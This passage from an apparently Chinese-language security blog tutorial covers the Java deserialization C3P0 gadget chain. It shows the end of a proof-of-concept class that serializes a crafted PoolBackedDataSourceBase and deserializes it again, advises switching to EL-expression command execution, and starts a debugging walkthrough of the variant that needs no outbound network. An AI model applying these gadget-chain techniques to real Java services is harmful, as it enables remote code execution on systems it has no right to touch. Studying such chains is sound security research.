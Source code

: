 ```
 public Logger getParentLogger() throws SQLFeatureNotSupportedException {  
            return null;  
        }  
    }  
  
    //序列化  
 public static void serialize(ConnectionPoolDataSource c) throws NoSuchFieldException, IllegalAccessException, IOException {  
        //反射修改connectionPoolDataSource属性值  
 PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);  
        Class cls = poolBackedDataSourceBase.getClass();  
        Field field = cls.getDeclaredField("connectionPoolDataSource");  
        field.setAccessible(true);  
        field.set(poolBackedDataSourceBase,c);  
  
        //序列化流写入文件  
 FileOutputStream fos = new FileOutputStream(new File("ser.bin"));  
        ObjectOutputStream oos = new ObjectOutputStream(fos);  
        oos.writeObject(poolBackedDataSourceBase);  
  
    }  
  
    //反序列化  
 public static void unserialize() throws IOException, ClassNotFoundException {  
        FileInputStream fis = new FileInputStream(new File("ser.bin"));  
        ObjectInputStream objectInputStream = new ObjectInputStream(fis);  
        objectInputStream.readObject();  
    }  
  
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {  
        Loader_Ref loader_ref = new Loader_Ref();  
        serialize(loader_ref);  
        unserialize();  
    }  
}
```

把原来 URLClassLoader 的地方修改成 EL 表达式的命令执行即可。

### C3P0 链子的不出网利用调试

- 简单调试理解一下。

先把断点下在 `BeanFactory` 的 `getObjectInstance()` 方法下，因为这里是一定被调用到的。

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/BeanFactory.png)

此处，我们可以看到之前的调用链，如图

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/FormerChains.png)
